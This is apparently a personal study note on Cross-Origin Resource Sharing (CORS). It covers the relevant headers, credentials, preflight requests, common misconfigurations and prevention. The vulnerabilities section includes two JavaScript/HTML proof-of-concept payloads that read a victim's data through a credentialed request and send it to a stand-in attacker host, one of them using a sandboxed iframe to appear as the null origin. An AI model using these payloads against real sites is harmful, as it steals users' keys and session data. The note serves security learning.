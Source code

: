 ### General Notes

Browser mechanism that enables controlled access to resources located outside of a domain, and adds flexibility to [[Same Origin Policy (SOP)]].
- The CORS [[Protocol]] uses [[HTTP#Header]]s that define trusted origins, and properties for each with given [[Authentication]] and [[Access Control]] permissions.

CORS relaxes the [[Same Origin Policy (SOP)]] for [[HTTP]] requests between websites with different domains through the use of HTTP headers.

> CORS doesn't protect against [[Cross Site Request Forgery (CSRF)]].

---
### `Access-Control-Allow-Origin` (ACAO) response header

To enable cross-origin communication, the `access-control-allow-origin` header is returned in the response from a website to the requesting website.
- This header identifies the permitted origin.
- The browser then compares the value in the header with the requesting website origin, and if they match, permits access.

This header is returned by a server when a website requests resources across domains with the `Origin` header.
- The browser compares values in this header with the requesting web `Origin` header and gives permissions.
- If they match, then cross-origin communication is allowed.

The `Access-Control-Allow-Origin` header can have values of:
* Multiple origins. (No browser supports this).
* `null`
* `*`

##### Transferring [[Cookies]], [[Certificates]], and Credentials

CORS allows for sharing credentials or authorization [[Cookies]] through the response header `Access-Control-Allow-Credentials` (ACAC).
- If it is set to true in the response, then the cookies being sent in the request will be allowed to be read.

 >Using the header `Access-Control-Allow-Origin` set to the value `*` cannot be combined with `Access-Control-Allow-Credentials` set to `true`.

##### Pre-Flight Checks

When a cross-domain request uses a non standard [[HTTP]] method or headers, this request is preceded by one with the `OPTIONS` method, and an initial check is made regarding the permitted methods and headers.
- The server returns allowed methods and the trusted origin.
- A cross-domain request will be first preceded by `OPTIONS` request with the method and headers used of this request.
- The server responds with the allowed origin, the allowed methods, the allowed verbs, and the caching time of the preflight response.

> Used to protect legacy resources.

---
### CORS Vulnerabilities

Some applications simply read the `origin` header from the incoming request, and then respond with the ACAO header set to the value in that `origin` header.
- They can also respond with the ACAC header to allow including [[Cookies]].

- If a [[Cross Site Request Forgery (CSRF)]] token or [[Application Programming Interface (API)]] key is included in the response, use this payload to steal the data of another user. They must view this code or click on it for it to work for them, and sends us their data.
```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

##### Error parsing Origin headers

Supporting multiple origins usually works by having a whitelist.
- A request with the origin header has its value compared against whitelist, if it is found, then the ACAO header is added to the response.

This matching with the whitelist can be played around by appending to the end or the beginning, or by using [[Regular Expressions]].
* The beginning by testing if it allows all subdomains.
* To the end if it simply checks the required origin is present.

> Sometimes the value `null` is whitelisted.

Browsers can send `null` in the origin header in:
* Cross-origin redirects.
* Requests from serialized data.
* Requests using `file:` [[Protocol]].
* Sandboxed cross-origin requests.

If the server responds with ACAO with value `null`, then we can bypass it by generating a cross-origin request containing `null` in the origin header satisfying the whitelist.

- Adding the payload we have in an `iframe` sandbox will appear as if it is coming from the null origin.
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
}; </script>">
</iframe>
```

##### Exploiting [[Cross Site Scripting (XSS)]] via CORS

If a website trusts an origin that is vulnerable to [[Cross Site Scripting (XSS)]], attacker can inject JavaScript that uses CORS.

- Given the following request:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

- If the server responds with:
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

- Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
> `cors-stuff` is the CORS payload that issues a request above. [[Cross-Origin Resource Sharing (CORS)#CORS Vulnerabilities]].

##### Breaking [[Transport Layer Security (TLS)]]

Application that has [[HTTPS]] whitelists a subdomain using [[HTTP]].
- Attackers that can intercept traffic between these two locations can compromise the victims interaction with the application.

> Methodology: [(TLS)](https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors).

---
### Preventing CORS

* Proper configuration of cross-origin requests with the properly specified ACAO headers.
* Only allow trusted websites with the headers.
* Avoid whitelisting the `null` value in the ACAO header.
* Avoid wildcards in internal networks. (`*`).
* Not a replacement for server-side protection.

---
